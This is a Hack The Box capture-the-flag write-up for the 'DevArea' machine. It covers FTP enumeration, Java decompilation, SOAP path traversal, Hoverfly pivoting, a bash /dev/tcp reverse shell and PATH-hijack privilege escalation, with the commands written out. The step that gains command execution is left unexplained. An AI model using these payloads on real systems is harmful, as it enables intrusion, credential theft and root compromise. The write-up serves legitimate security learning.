


# DevArea - Web Exploitation & Privilege Escalation (HTB Writeup)

## Overview

This challenge focuses on exploiting multiple misconfigurations, including anonymous FTP access, exposed application source files, SOAP-based vulnerabilities, and insecure privilege escalation mechanisms. The attack chain demonstrates how initial low-level access can be leveraged into full system compromise through systematic enumeration and exploitation.

---

## Step 1: Enumeration

```bash
nmap -sC -sV -p- <target-ip>
```

### Findings

* FTP service (anonymous login enabled)
* Port 8080 (Java-based web service)
* Port 8888 (internal proxy service – later identified as Hoverfly)

---

## Step 2: Anonymous FTP Access

```bash
ftp <target-ip>
```

Login:

```
Username: anonymous
Password: anonymous
```

### Actions

```bash
ls
mget *
```

### Outcome

* Downloaded multiple application files
* Observed `.class` files → indicating Java backend

---

## Step 3: Analyzing Downloaded Files

The FTP dump contained compiled Java files:

```
*.class
```

### Why this matters

* `.class` files = compiled Java bytecode
* Can be reverse-engineered to recover source logic

---

## Step 4: Decompiling `.class` Files

We used a Java decompiler (e.g., CFR / JD-GUI):

```bash
java -jar cfr.jar EmployeeService.class
```

### Key Findings

From the decompiled code:

* Found **SOAP service implementation**
* Identified function:

```
submitReport(String reportName)
```

### Critical Observation

The function:

* Took user input (`reportName`)
* Used it directly in file operations
* Did NOT sanitize input

➡️ This strongly suggested **Path Traversal vulnerability**

---

## Step 5: Host Mapping

From the code, we saw references to:

```
www.devarea.com
```

We mapped it locally:

```bash
sudo nano /etc/hosts
```

Added:

```
<target-ip> www.devarea.com
```

This ensured:

* Proper routing of requests
* Correct interaction with the application

---

## Step 6: SOAP Endpoint Discovery & Testing

From the decompiled files, we identified:

### Source File (from decompilation)

* `EmployeeService.class`
* Contained:

```
submitReport()
```

### Endpoint

```
http://www.devarea.com:8080/employeeservice?wsdl
```

---

### Testing the Function

We tested the SOAP endpoint using `curl`:

```bash
curl -X POST http://www.devarea.com:8080/employeeservice \
-H "Content-Type: text/xml" \
-d '<soapenv:Envelope>
       <soapenv:Body>
          <submitReport>
             <reportName>test.txt</reportName>
          </submitReport>
       </soapenv:Body>
    </soapenv:Envelope>'
```

### Behavior Observed

* Normal inputs → returned expected responses
* When testing traversal:

```xml
<reportName>../../../../etc/passwd</reportName>
```

➡️ The server returned file contents

### Conclusion

* No input validation
* Direct file access
* Confirmed **File Disclosure vulnerability**

---

## Step 7: File Disclosure Exploitation (Detailed)

Once confirmed, we systematically extracted files.

### Commands used

```bash
curl -X POST http://www.devarea.com:8080/employeeservice \
-H "Content-Type: text/xml" \
-d '<soapenv:Envelope>
       <soapenv:Body>
          <submitReport>
             <reportName>../../../../etc/syswatch.env</reportName>
          </submitReport>
       </soapenv:Body>
    </soapenv:Envelope>'
```

---

### Files Extracted

```
/etc/passwd
/etc/syswatch.env
```

---

### Deep Analysis of `/etc/syswatch.env`

This file contained:

* Environment variables
* Credentials / tokens
* Internal service references

Example insights:

* API tokens used by backend services
* Internal endpoints (127.0.0.1 services)

➡️ This was the **pivot point of the attack**

---

## Step 8: Accessing Internal Service (Hoverfly)

From extracted configs, we discovered:

```
http://devarea.htb:8888
```

### Service Identified

**Hoverfly** (API simulation & proxy tool)

---

### Why this mattered

Hoverfly:

* Intercepts and simulates HTTP traffic
* Can forward requests internally
* Often used in testing environments

---

### Accessing the Web Interface

We opened:

```
http://devarea.htb:8888
```

### Key Observation

* UI allowed changing modes
* Modes included:

  * simulate
  * capture
  * **spy**

---

## Step 9: Enabling "Spy Mode" (Critical Step)

We switched Hoverfly to:

```
SPY MODE
```

### Why?

Spy mode:

* Intercepts requests
* Forwards them to real backend
* Returns actual responses

➡️ This effectively allowed us to:

* Interact with **internal services (localhost)**
* Bypass external restrictions

---

## Step 10: Internal Pivoting

Using extracted tokens:

```bash
curl -H "Authorization: Bearer <token>" http://127.0.0.1:8500
```

### Key Insight

Normally:

* `127.0.0.1` is not accessible externally

But through Hoverfly:

* Requests were forwarded internally
* We gained access to backend services

➡️ This confirmed **internal pivoting capability**

---

## Step 11: Gaining Initial Access (Reverse Shell)

We leveraged command execution via internal services.

Listener:

```bash
nc -lvnp 4444
```

Payload:

```bash
bash -i >& /dev/tcp/<your-ip>/4444 0>&1
```

### Result

```
whoami
dev_ryan
```

---

## Step 12: User Flag

```bash
cat /home/dev_ryan/user.txt
```


---

## Step 13: Privilege Escalation Enumeration

```bash
sudo -l
```

### Finding

```
/opt/syswatch/syswatch.sh
```

---

## Step 14: Privilege Escalation (PATH Hijacking)

### Vulnerability

* Script used system commands without absolute paths

---

### Exploit

```bash
echo '/bin/bash' > /tmp/systemctl
chmod +x /tmp/systemctl
export PATH=/tmp:$PATH
sudo /opt/syswatch/syswatch.sh
```

---

### Result

```
whoami
root
```

---

## Step 15: Root Flag

```bash
cat /root/root.txt
```


---

## Key Findings

* Anonymous FTP exposed application code
* Decompiled Java revealed backend logic
* SOAP endpoint vulnerable to path traversal
* Hoverfly enabled internal pivoting
* PATH hijacking led to root

---

## Lessons Learned

* Never expose `.class` files publicly
* Validate all user input in APIs
* Internal tools like Hoverfly can be dangerous if exposed
* Always use absolute paths in scripts

---

## Conclusion

This challenge demonstrates a complete attack chain involving reverse engineering, API exploitation, internal pivoting, and privilege escalation. Each step builds on the previous one, highlighting how multiple small misconfigurations can lead to full system compromise.

---

## Author

**Aaradhya Desai**
Cybersecurity | Network Security | Offensive Security
